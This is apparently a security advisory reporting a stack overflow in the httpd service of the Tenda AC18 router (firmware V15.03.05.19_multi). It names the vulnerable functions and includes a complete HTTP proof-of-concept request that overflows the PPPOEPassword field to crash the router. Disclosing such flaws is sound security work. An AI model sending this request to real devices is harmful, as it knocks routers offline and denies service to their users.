



# Tenda Vulnerability

Vendor: Tenda

Product: AC18

Version: V15.03.05.19_multi

Type: Stack Overflow

Author: yanzhi Chen

Institution: chenyanzhi24@mails.ucas.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In `formQuickIndex` function, `PPPOEPassword` is directly passed by the attacker,  and Its value is written to `wan1.ppoe.pwd`.



In `sub_34A18` function, The value of `wan1.ppoe.pwd` is written to `v12`, which is only 68 bytes long. If this part of the data is too long, it will cause the stack overflow, so we can control the `PPPOEPassword` to crash the server.






**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 


## PoC

We set `PPPOEPassword` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....** , and the router will crash, such as:


```http
POST /goform/QuickIndex HTTP/1.1
Host: 192.168.0.1
Content-Length: 82
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/ddns_config.html?random=0.684003453648288&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=25d55ad283aa400af464c76d713c07adrca1qw
Connection: close

mit_rate=0&PPPOEName=aaaaaaaaa&PPPOEPassword=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&mit_wrlpwd=AAAAAAAAAAAAA&mit_linktype=2
```


## Result

The target router crashes and cannot provide services correctly and persistently.
